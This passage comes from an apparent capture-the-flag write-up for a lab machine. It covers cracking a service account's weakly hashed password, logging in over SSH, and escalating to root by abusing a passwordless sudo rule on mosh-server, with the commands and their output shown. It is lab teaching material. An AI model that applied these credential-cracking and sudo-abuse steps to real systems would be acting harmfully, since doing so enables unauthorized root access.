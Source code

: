 ![image](https://github.com/user-attachments/assets/7dcfa15f-c77d-4401-a0a3-82c60be36858)

### **Discovered Credentials**

In the User Management pane we see a *svcMosh* with a password that looks encrypted.

![image](https://github.com/user-attachments/assets/d8b9c6aa-b3f1-4b2e-aa66-4d31296572f4)

As this looks like weak encryption I threw it into *crackstation* and got the password *underwaterfriends*

![image](https://github.com/user-attachments/assets/88610120-e13f-4409-a9cf-06917d800e26)

### **SSH To Target**

```bash
┌─[us-dedivip-1]─[10.10.14.63]─[lemagickonch@htb-xmn3euvuef]─[~/Desktop]
└──╼ [★]$ ssh svcMosh@10.129.163.87
svcMosh@10.129.163.87's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

Last login: Thu Dec 12 15:45:42 2024 from 10.10.14.65
svcMosh@underpass:~$ 
```

# **Privilege Escalation**

First lets run *sudo -l* to see if our user has any permissions

```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

Looks like we have sudo rights on the binary */usr/bin/mosh-server*

Lets see what it does by running:

```bash
man /usr/bin/mosh-server
```

The Example section shows you how to run the binary.

## **Spawn Root Shell Using Mosh**

```bash
svcMosh@underpass:~$ sudo /usr/bin/mosh-server


MOSH CONNECT 60001 iCMGVk/UlIUfP6QDf7ulrg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2429]
svcMosh@underpass:~$ MOSH_KEY=iCMGVk/UlIUfP6QDf7ulrg mosh-client 127.0.0.1 60001
```

